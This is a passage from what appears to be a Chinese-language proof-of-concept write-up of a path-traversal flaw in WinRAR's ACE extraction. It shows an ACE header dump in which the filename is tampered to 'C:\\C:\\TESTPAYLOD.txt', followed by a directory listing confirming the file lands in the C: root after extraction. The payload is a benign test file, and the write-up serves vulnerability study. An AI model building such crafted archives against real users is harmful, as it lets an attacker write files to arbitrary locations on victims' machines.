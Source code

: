 ```
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e5b546f  2019-02-27 10:35:30
    reserved1   e8 03 5d e6 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x4589
    hdr_size    51
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    13
    origsize    13
    datetime    0x4e5b538e  2019-02-27 10:28:28
    attribs     0x00000020  ARCHIVE
    crc32       0x7c434d5c
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:\\TESTPAYLOD.txt'   <--篡改成功
    comment     b''
    ntsecurity  b''
    reserved2   b''


```

5. **直接进行解压，攻击**，可造成在C盘目录下 释放  TESTPAYLOD.txt文件

```
C:\>dir
 驱动器 C 中的卷没有标签。
 卷的序列号是 2E73-CE10

 C:\ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2019/02/26  10:49    <DIR>          Program Files
2019/02/26  11:06    <DIR>          Program Files (x86)
2019/02/15  17:03    <DIR>          Python27
2019/02/27  10:28                13 TESTPAYLOD.txt     <-------释放成功
2016/09/05  10:22    <DIR>          Users
2019/02/26  11:18    <DIR>          Windows
```

6. **其他攻击方式和可能性测试**
